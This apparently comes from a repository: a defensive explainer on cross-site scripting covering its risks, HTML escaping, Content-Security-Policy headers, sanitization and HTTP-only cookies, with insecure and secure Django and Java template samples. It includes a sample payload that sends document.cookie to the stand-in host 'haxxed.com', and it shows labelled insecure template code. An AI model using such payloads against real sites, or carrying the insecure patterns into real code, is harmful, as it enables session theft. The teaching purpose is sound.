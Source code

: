 # Cross-Site Scripting (XSS)
***Cross-site scripting (XSS)*** is one of the most common methods hackers use to attack websites. XSS vulnerabilities permit a malicious user to execute arbitrary chunks of JavaScript when other users visit your site.

## Example
On a forum page where users are permitted to type and post text -

User input:
```html
<script> alert('Your session has been hacked!') </script>
```
*This will display an alert popup on any user's screen that views the message.*

Next input:
```html
<script>window.location = 'haxxed.com?cookie=' + document.cookie</script>
```
*This hijacks the user's session and moves them to a new page listed in the `window` parameter.*

## Risks
XSS allows arbitrary execution of JavaScript code, so the damage that can be done by an attacker depends on the sensitivity of the data being handled by your site. Some of the things hackers have done by exploiting XSS:

- *Spreading worms* on social media sites. Facebook, Twitter and YouTube have all been successfully attacked in this way.
- *Session hijacking*. Malicious JavaScript may be able to send the session ID to a remote site under the hacker’s control, allowing the hacker to impersonate that user by hijacking a session in progress.
- *Identity theft*. If the user enters confidential information such as credit card numbers into a compromised website, these details can be stolen using malicious JavaScript.
- *Denial of service attacks* and website vandalism.
- *Theft of sensitive data*, like passwords.
- *Financial fraud* on banking sites.

## Protection
Web pages are made up of HTML, usually described in template files, with dynamic content woven in when the page is rendered. Stored XSS attacks make use of the improper treatment of dynamic content coming from a backend data store. The attacker abuses an editable field by inserting some JavaScript code, which is evaluated in the browser when another user visits that page.

Unless your site is a content-management system, it is rare that you want your users to author raw HTML. Instead, you should escape all dynamic content coming from a data store, so the browser knows it is to be treated as the contents of HTML tags, as opposed to raw HTML.

Escaping dynamic content generally consists of replacing significant characters with the HTML entity encoding:

| Character | Encoding |
|-----------|----------|
| " | &#34 |
| # | &#35 |
| & | &#38 |
| ' | &#39 |
| ( | &#40 |
| ) | &#41 |
| / | &#47 |
| ; | &#59 |
| < | &#60 |
| > | &#62 |

## Whitelist Values
If a particular dynamic data item can only take a handful of valid values, the best practice is to restrict the values in the data store, and have your rendering logic only permit known good values. For instance, instead of asking a user to type in their country of residence, have them select from a drop-down list.

## Content-Security Policy
Modern browsers support Content-Security Policies that allow the author of a web-page to control where JavaScript (and other resources) can be loaded and executed from. XSS attacks rely on the attacker being able to run malicious scripts on a user’s web page - either by injecting inline `<script>` tags somewhere within the `<html>` tag of a page, or by tricking the browser into loading the JavaScript from a malicious third-party domain.

By setting a content security policy in the response header, you can tell the browser to never execute inline JavaScript, and to lock down which domains can host JavaScript for a page:
```html
Content-Security-Policy: script-src 'self' https://apis.google.com
```
*By whitelisting the URIs from which scripts can be loaded, you are implicitly stating that inline JavaScript is not allowed.*

The content security policy can also be set in a <meta> tag in the <head> element of the page:
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://apis.google.com">
```

*This approach will protect your users very effectively!* However, it may take a considerable amount of discipline to make your site ready for such a header. Inline scripts tags are considered bad practice in modern web-development - mixing content and code makes web-applications difficult to maintain - but are common in older, legacy sites.

To migrate away from inline scripts incrementally, consider makings use of CSP Violation Reports. By adding a report-uri directive in your policy header, the browser will notify you of any policy violations, rather than preventing inline JavaScript from executing:
```html
Content-Security-Policy-Report-Only: script-src 'self'; report-uri http://example.com/csr-reports
```
*This will give you reassurance that there are no lingering inline scripts, before you ban them outright.*

## Sanitize HTML
Some sites have a legitimate need to store and render raw HTML, especially now that `contentEditable` has become part of the HTML5 standard. If your site stores and renders rich content, you need to use a HTML sanitization library to ensure malicious users cannot inject scripts in their HTML submissions.

## Code Samples
The code samples below illustrate good and bad practices when trying to protect against Cross-Site Scripting.

#### Python | Django
Insecure (`| safe` overrides HTML escape):
```python
**{{ contents | safe }}**
```
Secure:
```python
**{{ contents }}**
```

#### Java
Insecure (does not escape HTML):
```java
<%= contents %>

${contents}

<%
   out.println(contents);
%>

```
Secure (`c:out` safely escapes HTML):
```java
<c:out value="${contents}">
```

## HTTP-Only Cookies
A session-hijacking attack can use malicious JavaScript to steal the cookie containing the user’s session ID. There is rarely a good reason to read or manipulate cookies in client-side JavaScript, so consider marking cookies as HTTP-only, meaning that cookies will be received, stored, and sent by the browser, but cannot be modified or read by JavaScript.